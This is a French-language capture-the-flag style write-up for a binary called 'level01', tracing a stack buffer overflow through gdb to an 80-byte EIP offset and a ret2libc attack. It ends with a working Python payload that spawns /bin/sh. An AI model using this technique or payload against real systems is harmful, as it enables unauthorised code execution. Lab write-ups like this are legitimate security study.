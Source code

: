 Le binaire level01 est composé de 3 fonction et lit 2 fois sur l'entrée standard via **fgets**:

<pre>
verify_user_name
verify_user_pass
main
</pre>

Aucune de ces fonction n'appelle la fonction system ou ne créer de shell, mais la fonction **main** appelle successivement la fonction **verify_user_name** et **verify_user_pass**.

Chaque fonction **verify_** compare les strings récupérées avec:

<pre>
dat_wil => verify_user_name
admin	=> verify_user_pass
</pre>

Le **buffer static** qui stocke le **pass** est nettement inférieur à la taille de la string récupérée dans le second **fgets()**, on peux Overflow la stack grâce a ce buffer.


On cherche si l'on peux écraser **EIP** et si oui à partir de quels octets et combien d'octects en plus nous pouvons écrire:
<pre>
b *main + 169	// Apres le second fgets
run
dat_will		// 1er string
AAAAAAAA		// 2eme string

i f

Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c

i r

eax            0xffffd6cc       -10548

addr de saved EIP => 0xffffd71c
addr du buffer    => 0xffffd6cc

0xffffd71c - 0xffffd6cc => 0x50 => 80

offset buffer/EIP 80 oct
</pre>

Nous écrasons **EIP** à partir de l'octet 80 et notre buffer fait un taille de 100 octets.

Nous pouvons effectuer un **RET2LIBC**:

<pre>
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()
(gdb) info proc map
process 1815
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        						...
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
								...
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000,0xf7e2c000,"/bin/sh"
Pattern not found.
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.

p system
$1 = {text variable, no debug info} 0xf7e6aed0 system

system 		=> 0xf7e6aed0
"/bin/sh"	=> 0xf7f897ec
</pre>

Nous pouvons donc formater notre exploit de la façon suivante:
<pre>
./level01
"dat_will"
"A*80 + &system + DUMM + &(/bin/sh)" 
</pre>

# EXPLOIT
<pre>
SHELL=/bin/sh

(python -c "print 'dat_wil\n' + 'A'*80 + '\xd0\xae\xe6\xf7' + 'DUMM' + '\xec\x97\xf8\xf7'";cat) | ./level01
</pre>